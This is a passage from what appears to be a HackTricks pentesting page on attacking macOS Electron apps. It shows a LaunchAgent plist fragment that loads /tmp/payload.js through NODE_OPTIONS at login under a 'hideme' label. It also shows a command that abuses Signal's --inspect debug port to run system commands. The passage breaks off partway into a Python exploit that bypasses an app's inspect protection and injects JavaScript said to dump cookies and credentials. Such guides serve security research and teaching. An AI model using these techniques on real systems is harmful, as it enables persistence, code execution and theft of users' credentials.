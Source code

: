```
           NODE\_OPTIONS
           \-\-require /tmp/payload.js
    </dict>
    Label
    com.hacktricks.hideme
    RunAtLoad
    
</dict>
```
```
## RCE with inspecting

According to [[https://medium.com/@metnew/why-electron-apps-cant-store-your-secrets-confidentially-inspect-option-a49950d6d51f|**this**]], if you execute an Electron application with flags such as **`--inspect`**, **`--inspect-brk`** and **`--remote-debugging-port`**, a **debug port will be open** so you can connect to it (for example from Chrome in `chrome://inspect`) and you will be able to **inject code on it** or even launch new processes.\
For example:

```bash
/Applications/Signal.app/Contents/MacOS/Signal --inspect=9229
# Connect to it using chrome://inspect and execute a calculator with:
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```
```
In [[https://hackerone.com/reports/1274695|**this blogpost**]], this debugging is abused to make a headless chrome **download arbitrary files in arbitrary locations**.

> [!TIP]
> If an app has its custom way to check if env variables or params such as `--inspect` are set, you could try to **bypass** it in runtime using the arg `--inspect-brk` which will **stop the execution** at the beggining the app and execute a bypass (overwritting the args or the env variables of the current process for example).

The folllowing was an exploit that monitoring and executing the app with the param `--inspect-brk` it was possible to bypass the custom protection it had (overwritting the params of the process to remove `--inspect-brk`) and then injecting a JS payload to dump cookies and credentials from the app:

```python
import asyncio
import websockets
import json
import requests
import os
import psutil
from time import sleep

INSPECT_URL = None
CONT = 0
CONTEXT_ID = None
NAME = None
UNIQUE_ID = None

JS_PAYLOADS = """
var { webContents } = require('electron');
var fs = require('fs');

var wc = webContents.getAllWebContents()[0]

function writeToFile(filePath, content) {
    const data = typeof content === 'string' ? content : JSON.stringify(content, null, 2);

    fs.writeFile(filePath, data, (err) => {
        if (err) {
```